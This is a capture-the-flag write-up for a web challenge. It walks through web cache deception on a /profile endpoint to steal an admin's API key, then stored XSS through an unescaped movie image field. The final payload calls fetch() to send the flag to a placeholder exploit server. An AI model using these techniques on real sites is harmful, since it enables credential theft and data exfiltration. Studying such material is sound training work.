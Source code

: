 # Popcorn and payloads

## Solution

### Recon

- Notice that all responses contain the `X-Cache-Status` HTTP header, which indicates that a **cache server** is probably in place.

- Only static file requests seem to be cached. Requests ending in `.css` or `.jpg` return responses with `HIT` or `MISS` in the `X-Cache-Status`, while any other requests return `BYPASS`.

- We should check for any [web cache deception vulnerabilitites](https://portswigger.net/web-security/web-cache-deception)

### Identify the vulnerability

- Identify a target endpoint that returns a dynamic response containing **sensitive information**. You should use the `/profile` endpoint.

- Identify a discrepancy in how the cache and backend server **parse** the URL path. There is a discrepancy in **how** they map URLs to resources.

- It seems that the backend server uses REST-style URL mapping and ignores any extra parameters. For example, `/profile/test` still returns the same response as `/profile`. 

-  Now, test if the cache server will cache the response if we add a static extension like `.css`. The cache server indeed caches the response for the request `/profile/test.css`.

- Since the response is cached, we can get the **exact same response** even if we remove the session cookie and make the same request.

### Exploit

- Craft a malicious URL like `/profile/a.css` and include it to a movie review. 

- An admin bot will visit any URLs contained in reviews.

- Wait a few seconds and then visit your own malicious URL. If you get `X-Cache-Status: MISS`, you didn't wait long enough. Try again with an other URL.

- You will be able to see the admin's cached profile page and steal their API key. Also, notice that there is API documentation available at `/api` and a functionality that returns the flag via an empty POST request to `/admin`.

- POST `/admin` with a regular user returns forbidden, so we probably need XSS on the page in order to get the flag.

- Study the API docs in `/api` and note that you can add a new movie with a POST request to `/api/movies`. Example request body:
```javascript
{
  "title": "New Movie",
  "image": "https://example.com/image.jpg",
  "trailer": "https://youtube.com/embed/xyz",
  "description": "A brand new movie."
}
```

- The image URL is inserted into the `src` attribute of the movie's `<img>` and it is not properly escaped. Therefore you can trigger XXS by adding a new movie with the following image URL:
```javascript
"image": "x\" onerror=\"alert(0)"
```

- Don't forget to use the stolen API key as an `x-api-key` HTTP header.

- Finally, add a movie with the following payload to force admin to send the flag to your exploit server:
```javascript
{
  "title": "New Movie",
  "image": "x\" onerror=\"fetch('http://CHALLENGE_ADDR/admin',{method:'POST'}).then(r=>r.json()).then(r=>fetch('http://YOUR-EXPLOIT-SERVER/?flag='+r.flag))",
  "trailer": "https://youtube.com/embed/xyz",
  "description": "A brand new movie."
}
```
